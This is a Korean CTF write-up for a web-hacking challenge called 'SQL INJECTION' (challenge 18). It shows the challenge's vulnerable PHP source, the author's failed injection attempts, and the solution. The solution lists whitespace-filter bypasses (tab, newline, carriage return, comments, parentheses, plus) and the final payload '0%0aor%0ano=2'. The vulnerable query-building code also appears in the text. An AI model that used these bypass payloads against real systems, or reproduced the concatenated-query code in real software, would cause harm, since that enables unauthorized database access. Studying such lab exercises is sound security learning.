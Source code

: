 # 18

### First impression
```
SQL INJECTION
```

```html
<html> 
<head> 
<title>Challenge 18</title> 
<style type="text/css"> 
body { background:black; color:white; font-size:10pt; } 
input { background:silver; } 
a { color:lightgreen; } 
</style> 
</head> 
<body> 
<br><br> 
<center><h1>SQL INJECTION</h1> 
<form method=get action=index.php> 
<table border=0 align=center cellpadding=10 cellspacing=0> 
<tr><td><input type=text name=no></td><td><input type=submit></td></tr> 
</table> 
</form> 
<a style=background:gray;color:black;width:100;font-size:9pt;><b>RESULT</b><br> 
<? 
if($_GET[no]) 
{ 

if(eregi(" |/|\(|\)|\t|\||&|union|select|from|0x",$_GET[no])) exit("no hack"); 

$q=@mysql_fetch_array(mysql_query("select id from challenge18_table where id='guest' and no=$_GET[no]")); 

if($q[0]=="guest") echo ("hi guest"); 
if($q[0]=="admin") 
{ 
@solve(); 
echo ("hi admin!"); 
} 

} 

?> 
</a> 
<br><br><a href=index.phps>index.phps</a> 
</cener> 
</body> 
</html> 
```

* `?no=` 파라미터로 SQLi를 넘겨서 `admin`이 나타나야 통과한다.

### Trial and error
```php
if(eregi(" |/|\(|\)|\t|\||&|union|select|from|0x",$_GET[no])) exit("no hack"); 

$q=@mysql_fetch_array(mysql_query("select id from challenge18_table where id='guest' and no=$_GET[no]")); 
```
* `AND` 연산은 `OR` 연산보다 높은 우선순위이기에 다음과 같이 SQL Injection을 시도한다.
	- `select id from challenge18_table where id='guest' and no='' or id='admin'`
	- `'' or id='admin'`
	- `''%20or%20id='admin'`
	- `''%09or%09id='admin'`
	- `'2'%09or%09id='admin'`
* 아무런 결과도 뜨지 않는다. 즉, `guest`도 `admin`도 아닌 다른 결과가 나왔거나, 결과가 뜨지 않았다는 것이다.
* `id=1` 외에는 값이 뜨지 않는다. 직접 `admin` 값을 넣어봐야 할 것 같다.
	- `select id from challenge18_table where id='guest' and no='';insert into challenge18_table(no, id) values('2','admin')`
	- `'';insert+into+challenge18_table(no, id)+values('2','admin')`
	- `'';insert+into+challenge18_table%28no,id%29+values%28'2','admin'%29`
* 결국 솔루션을 찾아봤다...

### Solution
* `no`가 `1`만 있는게 아니라 `2`도 있을 수 있다.
* `and` 연산자가 `or` 연산자보다 더 높은 우선순위에 있으므로, `false and false or true = true`와 같은 참값 유도를 해야 한다.
* `eregi()`로 띄어쓰기가 걸러지므로, 이를 우회할 방법을 찾아야 한다. [참고](http://binaryu.tistory.com/31)
	1. Tab : `%09`
		- `no=1%09or%09id='admin'`
	2. Line Feed (`\n`): `%0a`
		- `no=1%0aor%0aid='admin'`
	3. Carrage Return(`\r`) : `%0d`
		- `no=1%0dor%0did='admin'`
	4. 주석 : `/**/`
		- `no=1/**/or/**/id='admin'`
	5. 괄호 : `()`
		- `no=(1)or(id='admin')`
	6. 더하기 : `+`
		- `no=1+or+id='admin'`
* `0%0aor%0ano=2`을 브라우저 url 상에서 파라미터로 넘겨준다.

* 너무 조급하게 생각하여 이런 난이도로 솔루션을 찾아봤다. 조금 더 느긋하고 꼼꼼하게 고민해야 할 것이다.
